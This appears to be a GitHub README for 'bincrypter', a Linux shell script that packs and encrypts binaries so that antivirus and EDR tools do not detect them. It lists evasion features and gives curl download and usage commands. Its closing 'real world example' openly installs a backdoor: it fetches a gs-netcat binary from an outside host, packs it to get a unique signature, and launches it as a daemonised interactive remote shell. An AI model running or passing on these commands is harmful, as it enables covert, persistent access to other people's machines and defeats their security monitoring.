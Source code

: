 
## A shell script for Linux that obfuscates + encrypts + packs any binary.

- Obfuscates any ELF binary or script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files.
- Not soiling the filesystem
- Can double or triple encrypt the same binary
- Resulting binary is heavily obfuscated (`string` shows garbage)
- Living off the Land: /bin/sh + perl + openssl
- Architecture agnostic: Works on x86_64, aarch64, arm7, mips, ...

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/raw/refs/heads/main/bincrypter.sh -o bincrypter.sh
chmod +x bincrypter.sh
```

Usage:
```shell
cp /usr/bin/id id
./bincrypter.sh id
Compressed: 68552 --> 24176 [35%]

./id
uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter.sh id foobar
Compressed: 68552 --> 23860 [34%]

./id
Enter Password: foobar
uid=0(root) gid=0(root) groups=0(root)
```

Real world example (install a backdoor with a unique signature):
```shell
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m) | ./bincrypter.sh >gsnc
chmod +x gsnc
GS_ARGS="-ilD -s ChangeMe" ./gsnc
```



